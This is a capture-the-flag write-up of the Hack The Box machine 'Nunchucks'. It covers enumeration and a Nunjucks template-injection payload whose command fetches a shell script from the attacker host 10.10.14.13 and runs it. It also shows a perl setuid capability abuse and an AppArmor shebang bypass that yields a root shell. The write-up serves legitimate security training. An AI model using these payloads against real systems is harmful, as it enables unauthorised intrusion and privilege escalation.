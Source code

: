 # Nunchucks

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.252
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 04:51 EDT
Nmap scan report for 10.129.95.252
Host is up (0.016s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We have to add `nunchucks.htb` to our `/etc/hosts` file to access port 80.

### Web Enum

Port 80 reveals an ecommerce platform.

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption></figcaption></figure>

Registering is closed:

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website and it looks rather static, so we can do some subdomain and directory fuzzing. Using `wfuzz`, I found out there was a `store` subdomain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.nunchucks.htb' --hw=2271 https://nunchucks.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000037:   200        101 L    259 W      4028 Ch     "store"
```

### Email SSTI --> Shell

This was another store:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

When we submit an email, it would print it back on the screen.

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

The box name was a hint that it was using NUNJUCKS, so we can try some SSTI here. We can verify it works by using `{{7*7}}` as part of the email:

<figure><img src="../../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to gain a reverse shell using SSTI for RCE. If we analyse the HTTP traffic, we can see that the emails are being sent to `/api/submit` and processed.&#x20;

<figure><img src="../../../.gitbook/assets/image (41) (5).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to generate a payload:

{% code overflow="wrap" %}
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell|bash')")()}}
```
{% endcode %}

Here's the final request I used to get a shell:

{% code overflow="wrap" %}
```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=sS5N1jkHeT3qF-BegglaZv_v
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 141
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close



{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell.sh|bash')\")()}}"
}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### Perl Capabilities

Within the `/opt` directory, there's a few files:

```
david@nunchucks:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28  2021 .
drwxr-xr-x 19 root root 4096 Oct 28  2021 ..
-rwxr-xr-x  1 root root  838 Sep  1  2021 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28  2021 web_backups
```

The first few lines of `backup.pl` stand out to me:

```perl
david@nunchucks:/opt$ cat backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0);
```

It seems that the perl script is able to run `setuid(0)`. This means that it's probably being run as `root` or it just has the capability to do so. We can enumerate this using `getcap`:

```
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

This confirms that we can just run this command torun commands and spawn a `root` shell:

```
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/opt$
```

Interestingly, it does not let us spawn a shell. There's an application that is blocking us.&#x20;

### AppArmor Bypass --> Shell

While reading about security programs in Linux, I ran the `aa-status` command and confirmed that AppArmor is running:

```
david@nunchucks:/opt$ aa-status
apparmor module is loaded.
You do not have enough privilege to read the profile set.
```

This program is a kernel enhancement to confine programs to a limited set of resources, thus explaining why `perl` can only run simple commands and we can't spawn shells. There are bugs on Hacktricks that explain how to bypass these using a shebang.

{% embed url="https://bugs.launchpad.net/apparmor/+bug/1911431" %}

We just have to run these:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>
